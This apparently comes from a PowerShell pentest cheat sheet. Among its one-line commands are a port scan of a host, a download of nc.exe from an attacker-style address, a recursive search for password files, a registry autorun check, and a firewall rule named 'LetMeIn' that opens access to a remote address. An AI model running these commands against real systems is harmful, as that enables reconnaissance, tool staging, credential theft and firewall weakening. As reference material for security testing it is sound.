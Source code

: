### Conduct a port scan

```
PS C:\> 1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.10.10.10",$_)) "Port $_ is open!"} 2>$null
```

### Fetch a file via HTTP (wget in PowerShell)

```
PS C:\> (New-Object System.Net.WebClient).DownloadFile("http://10.10.10.10/nc.exe","nc.exe")
```

### Find all files with a particular name

```
PS C:\> Get-ChildItem "C:\Users\" -recurse -include *passwords*.txt
```

### Microsoft Hotfixes

```
PS C:\> Get-HotFix
```

### Navigate the Windows registry

```
PS C:\> cd HKLM:\
PS HKLM:\> ls
```

### List programs set to start automatically in the registry

```
PS C:\> Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\run
```

### Convert string from ASCII to Base64

```
PS C:\>[System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("PSFTW!"))
```

### List and modify the Windows firewall rules

```
PS C:\> Get-NetFirewallRule –all
PS C:\> New-NetFirewallRule -Action Allow -DisplayName LetMeIn -RemoteAddress 10.10.10.25
```

```
powershell -c "Get-NetFirewallRule -Direction Outbound -Enabled True -Action Block | Format-Table -Property DisplayName,@{Name='Protocol';Expression={($PSItem | Get-NetFirewallPortFilter).Protocol}},@{Name='LocalPort';Expression={($PSItem | Get-NetFirewallPortFilter).LocalPort}},@{Name='RemotePort';Expression={($PSItem | Get-NetFirewallPortFilter).RemotePort}},@{Name='RemoteAddress';Expression={($PSItem | Get-NetFirewallAddressFilter).RemoteAddress}}, Enabled, Profile,Direction,Action" 
```
